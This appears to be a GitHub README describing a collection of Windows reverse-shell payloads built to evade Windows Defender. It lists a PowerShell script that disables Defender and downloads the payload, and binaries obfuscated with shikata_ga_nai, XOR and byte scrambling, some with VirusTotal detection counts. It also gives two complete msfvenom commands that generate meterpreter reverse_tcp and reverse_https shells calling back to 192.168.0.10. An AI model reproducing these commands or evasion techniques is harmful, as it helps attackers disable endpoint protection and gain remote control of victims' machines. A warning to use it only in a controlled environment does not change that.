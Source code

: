 # !!DOWNLOAD ONLY IN A CONTROLLED ENVIRONMENT!!

## all payloads here points to host 192.168.0.10:4444

`kib_keyboard.ps1` is a powershell script that disables windows defender and notifications, then downloads the actual payload.

### payload descriptions (files denoted with X is detected by windows defender):
1. `kidx86.exe` is a x86 tcp reverse shell writtern in c++ endcoded using shikata_ga_nai, with byte change, scrambled byes, extra dummy bytes and byte order obfuscation. 12/69 hits in [VirusTotal](https://www.virustotal.com/gui/file/f0223b32b6d12ea8414eff31ec673b9438d988532bc6b2623ed1d42215f35803/detection) (when it was first submitted). Able to bypass windows defender.
2. `kidx86_source.cpp` is the source file of the payload.
3. `shell.c` is the raw payload from msfvenom. Generated by ```msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.0.10 LPORT=4444 -e x86/shikata_ga_nai -i 8 -f c > shell.c```
4. `shell.exe` is a generic tcp reverse shell. X
5. `bkbx64.exe` is a x64 tcp reverse shell encoded in a custom c++ payload. X
6. `bkbx86.exe` is a x86 tcp reverse shell encoded in a custom c++ payload. X
7. `bkbpayload.ll` and `bkbpayloadraw.cs` are XOR encoded tcp revershell written in a custom C# payload that uses a powershell file to download and execute in memory. (doesn't work)
8. `test1.exe` is a tcp reverse shell encoded in custom python payload. X 
9. `testing9.exe` is a edited tcp reverse shell created using veil before changing from .bat to .exe. X
10. `c_rtcp.exe` is a tcp reverse shell written in C. X
11. `cs_rtcp.exe` is a tcp reverse shell written in C#. X
12. `go_rtcp.exe` is a tcp reverse shell written in go. X


Generating HTTPS reverse shell ```msfvenom -p windows/meterpreter/reverse_https LHOST=192.168.0.10 LPORT=443 HttpUserAgent="Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/73.0.3683.103 Safari/537.36" -e x86/shikata_ga_nai -i 8 -f c > shell.c
```

A number of tools and lanaguages was used to the process of trying to bypass windows defender, including: Veil, metasploit windows defender evasion, complining custom payloads, we tried payloads encoded using python, c, c++, c#, ruby, go, java.
